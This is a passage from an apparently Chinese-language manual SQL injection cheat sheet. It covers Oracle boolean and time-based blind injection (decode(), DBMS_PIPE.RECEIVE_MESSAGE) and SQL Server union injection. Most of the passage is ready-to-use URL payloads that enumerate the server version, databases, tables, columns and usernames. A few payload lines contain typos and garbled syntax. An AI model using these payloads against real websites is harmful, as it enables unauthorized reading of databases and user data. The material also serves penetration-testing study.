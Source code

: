 ### 2.3 盲注

#### 2.3.1 布尔盲注

既然是盲注，那么肯定涉及到条件判断语句，Oracle 除了使用 IF the else end if 这种复杂的，还可以使用 decode() 函数。  
语法：decode(条件, 值 1, 返回值 1, 值 2, 返回值 2,... 值 n, 返回值 n, 缺省值);

该函数的含义如下：

```
IF 条件=值1 THEN
　　　　RETURN(返回值1)
ELSIF 条件=值2 THEN
　　　　RETURN(返回值2)
　　　　......
ELSIF 条件=值n THEN
　　　　RETURN(返回值n)
ELSE
　　　　RETURN(缺省值)
END IF


```

```
?id=1' and 1=(select decode(user,'SYSTEM',1,0,0) from dual)--
?id=1' and 1=(select decode(substr(user,1,1),'S',1,0,0) from dual)--
?id=1' and ascii(substr(user,1,1))> 64--  #二分法


```

#### 2.3.2 时间盲注

可使用 DBMS\_PIPE.RECEIVE\_MESSAGE('任意值', 延迟时间) 函数进行时间盲注，这个函数可以指定延迟的时间

```
?id=1' and 1=(case when ascii(substr(user,1,1))> 128 then DBMS\_PIPE.RECEIVE\_MESSAGE('a',5) else 1 end)--
?id=1' and 1=(case when ascii(substr(user,1,1))> 64 then DBMS\_PIPE.RECEIVE\_MESSAGE('a',5) else 1 end)--


```

0x03 SQL server 手工注入
--------------------

### 3.1 联合注入

```
?id=-1' union select null,null--
?id=-1' union select @@servername, @@version--
?id=-1' union select db\_name(),suser\_sname()--
?id=-1' union select (select top 1 name from sys.databases where name not in (select top 6 name from sys.databases)),null--
?id=-1' union select (select top 1 name from sys.databases where name not in (select top 7 name from sys.databasesl),null--
?id--1' union select (select top 1 table\_ name from information\_schema.tables where table\_name not in (select top 0 table\_name from information\_schema.tables)),null--
?id=-1' union select (select top 1 column name from information\_schema.columns where table\_name='users' and column\_name not in (select top 1 column\_name from information\_schema.columns where table\_name = 'users')),null---
?id=-1' union select (select top 1 username from users where username not in (select top 3 username from users)),null--


```